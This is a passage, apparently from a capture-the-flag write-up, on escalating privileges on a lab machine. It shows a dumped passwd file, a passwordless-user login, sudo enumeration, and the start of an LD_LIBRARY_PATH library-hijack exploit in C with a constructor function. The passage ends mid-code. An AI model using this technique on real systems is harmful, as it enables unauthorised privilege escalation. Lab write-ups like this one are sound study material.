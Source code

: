 pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
baroi:x:1000:1000:baroi:/home/baroi:/bin/rbash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
redis:x:114:118::/var/lib/redis:/usr/sbin/nologin
ftp:x:1001:1001::/var/ftp:/bin/sh
subho::1002:1002:,,,:/home/subho:/bin/bash
mango:x:1003:1003:,,,:/home/mango:/bin/bash

```
// see it carefully ```subho::1002:1002:,,,:/home/subho:/bin/bash``` it does't contain x . it means that ```subho``` user don't have any password.

```su subho```


// I go subho shell $$$.

```sudo -l```

```
Matching Defaults entries for subho on django-mango:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_LIBRARY_PATH, env_delete+=LD_PRELOAD

User subho may run the following commands on django-mango:
    (mango) SETENV: NOPASSWD: /bin/ls

```

// I can run ```/bin/ls``` as mango user. hmm i can use ```LD_LIBRARY_PATH``` to escalate my privileges.

This command will show what libraray using ```/bin/ls```.

```ldd /bin/ls```

```
linux-vdso.so.1 (0x00007fff96928000)
libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f1e6b7bf000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f1e6b5cd000)
libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007f1e6b53c000)
libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f1e6b536000)
/lib64/ld-linux-x86-64.so.2 (0x00007f1e6b819000)
libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f1e6b513000)

```

// So i will Target ```libdl.so.2``` libraray.

// our payload.

```nano exploit.c```

```
static void hijack(void) __attribute__((constructor));

